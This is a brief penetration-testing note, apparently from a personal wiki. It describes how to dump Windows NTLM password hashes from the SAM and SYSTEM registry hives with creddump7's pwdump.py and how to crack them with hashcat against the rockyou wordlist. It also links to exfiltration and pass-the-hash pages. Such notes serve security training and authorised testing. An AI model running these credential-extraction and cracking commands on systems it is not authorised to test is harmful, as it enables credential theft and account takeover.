 To extract hashes from folders/registry hives, you need both the SAM and the SYSTEM files.

First, [[Exfiltration|Exfiltrate the files to your machine]]

```
git clone https://github.com/Tib3rius/creddump7   
pip3 install pycrypto   
python3 creddump7/pwdump.py SYSTEM SAM
```

[[PTH (Pass-The-Hash) connection |Use a PTH attack]]
Try to crack the NTLM hash using hashcat, and save it to test for password reuse vulnerabilities:
```
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
```

